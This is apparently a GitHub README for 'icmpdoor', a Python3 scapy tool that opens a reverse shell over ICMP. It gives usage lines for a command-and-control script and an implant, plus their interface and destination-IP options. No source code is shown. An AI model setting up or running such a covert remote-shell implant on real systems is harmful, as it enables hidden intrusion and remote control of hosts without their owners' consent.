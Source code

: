 # Python3 ICMP reverse shell 
ICMP reverse shell with python3 scapy

Usage:
```bash
icmp-cnc.py [-h] -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py [-h] -i INTERFACE -d DESTINATION_IP (Implant)
```
optional arguments:

```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
